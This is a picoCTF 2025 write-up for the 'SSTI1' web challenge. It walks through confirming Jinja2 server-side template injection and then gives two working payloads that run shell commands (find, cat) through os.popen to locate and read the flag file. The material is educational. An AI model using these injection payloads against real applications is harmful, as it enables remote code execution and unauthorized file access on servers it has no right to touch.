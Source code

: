 # SSTI1 — picoCTF2025

**Author:** Venax  
**Tags:** Easy · Web Exploitation · browser_webshell_solvable

---

## 🧠 Description

> I made a cool website where you can announce whatever you want! Try it out!  
> Additional details will be available after launching your challenge instance.

---

## 🔍 Challenge Overview

We're given a web application that allows users to submit announcements. Based on the behavior of the input rendering, this challenge hints at a possible **Server-Side Template Injection (SSTI)** vulnerability.

When we input:

```

{{7\*7}}

```

The rendered output displays:

```

49

````

This confirms **Jinja2 SSTI**, as Jinja2 evaluates expressions inside double curly braces.

---

## 🔥 Exploiting SSTI for Remote Code Execution

In Jinja2, we can access Python built-ins and even execute system commands by abusing template internals.

## 🧪 Initial Exploration – Finding the Flag

Before directly reading the flag, we confirmed it exists and located it using the following SSTI payload:

```jinja
{{cycler.__init__.__globals__.os.popen('find / -type f -iname "*flag*" 2>/dev/null').read()}}
````

This executed the `find` command on the server, and the output revealed the flag file at:

```bash
/challenge/flag
```

---

## 🔥 Exploiting SSTI to Read the Flag

Now that we know the flag's location, we use the following payload to read its contents:

```jinja
{{cycler.__init__.__globals__.os.popen('cat /challenge/flag').read()}}
```

This works by accessing Python's `os` module through Jinja2 internals and executing the `cat` command to reveal the flag.

## 🏁 Flag

```
picoCTF{<REDACTED>}
```

---

## 💡 Takeaways

* Jinja2 SSTI is a common and powerful vulnerability.
* If expressions like `{{7*7}}` are evaluated, always test for further template injection possibilities.
* SSTI can lead to full **remote code execution** if not properly sandboxed.

---